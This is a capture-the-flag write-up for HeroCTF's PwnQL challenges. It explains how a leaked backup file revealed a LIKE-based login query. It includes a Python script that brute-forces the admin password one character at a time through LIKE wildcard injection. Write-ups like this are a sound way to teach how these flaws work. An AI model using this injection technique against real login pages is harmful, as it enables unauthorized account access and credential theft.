






<h1>Challange: PwnQL</h1>

<h1>Description</h1>

Login as *admin* to get the flag.

URL: ```http://chall1.heroctf.fr:8080```

<h1>Solution</h1>

Lets try to access the given URL 



There is a login panel and let's try to login using basic credentials ```admin:admin```



Those did not work but in the response we can see there is a backup file called ```login.php.bak```. so let's download it.



In the source code, we can see that they are using a like operator. so we can simply login to the application using like operator.



After login to the account we can see the flag.




<h1>Challange : PwnQL 2</h1>

<h1>Description</h1>

Extract the *admin*'s password from the database.

URL : ```http://chall1.heroctf.fr:8080```

<h1>Solution</h1>

we already know that they are using a like operator. so we can simply Bruteforce the password using the below script.

```import string
import requests

password=''

chars = string.ascii_lowercase+string.digits+'@'

while len(password)<=20:
        for i in chars:
                print(f'[+] Trying {i}')
                r = requests.post('http://chall1.heroctf.fr:8080/index.php',data={'username':'admin','password':f'{password}{i}%'})
                if 'Wrong' not in r.text:
                        password+=i
                        print(f'[+] Password : {password}')
```

After running the script we successfully got the password ```s3cur3p@ss```.



As mentioned in the description password is the flag.
```Hero{s3cur3p@ss}```